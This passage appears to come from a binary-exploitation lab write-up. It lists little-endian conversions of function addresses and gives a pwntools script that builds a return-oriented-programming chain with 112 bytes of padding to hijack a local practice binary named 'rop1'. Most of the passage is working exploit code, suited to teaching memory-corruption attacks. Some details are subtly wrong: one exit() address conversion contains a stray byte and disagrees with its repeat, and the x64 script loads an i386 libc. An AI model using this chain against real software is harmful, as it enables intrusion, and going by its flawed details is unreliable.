 #### Converting Addresses to Little-Endian

`&rop1()`: `0000000000401156` -> `\x56\x11\x40\x00\x00\x00\x00\x00`

`&rop2()`: `000000000040116d` -> `\x6d\x11\x40\x00\x00\x00\x00\x00`

`&rop3()`: `0000000000401184` -> `\x84\x11\x40\x00\x00\x00\x00\x00`

`&exit()`: `0x00007ffff7dd05f0` -> `\xf0\x05\xdd\xf7\xff\xff\x07\x00`

`&ret_gadget`: `0x000000000040101a` -> `\x1a\x10\x40\x00\x00\x00\x00\x00`

`&exit()`: `0x00007ffff7dd05f0` ->  `\xf0\x05\xdd\xf7\xff\xff\x00\x00`

### Using pwntools to Automate Exploitation

`exploit-x64.py`:

```python
#!/usr/bin/python3
from pwn import *
import sys

# Set up pwntools for the correct architecture and target
exe = './rop1'
exe = context.binary = ELF(exe, checksec=False)
libc = ELF('/lib/i386-linux-gnu/libc.so.6', checksec=False)
p = process(exe.path)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# How many bytes to the instruction pointer (EIP)?
padding = 112
#junk = b'\x42\x42\x42\x42\x42\x42\x42\42'
# rop1 = 0000000000401156
# rop2 = 000000000040116d 
# rop3 = 0000000000401184 
#exitFunc = b'\xf0\x05\xdd\xf7\xff\xff\x00\x00' #0x00007ffff7dd05f0 \xf0\x05\xdd\xf7\xff\xff\x00\x00
#ret = b'\x1a\x10\x40\x00\x00\x00\x00\x00' #0x000000000040101a

# ROP Chain Structure
rop = ROP(exe)
rop.rop1()
rop.rop2()
rop.rop3()

# Print out ROP addresses
print('(+) ROP Chain Structure:')
info('rop1() address:%#x', exe.sym['rop1'])
info('rop2() address:%#x', exe.sym['rop2'])
info('rop3() address:%#x', exe.sym['rop3'])

payload = flat(
    b'A' * padding,
    rop.chain(),
)

# Write the payload to file
write('pwntoolsPayload-x64', payload)
print("[+] Wrote payload to file named pwntoolsPayload-x64")

# Send the payload
p = process([exe.path, payload])
```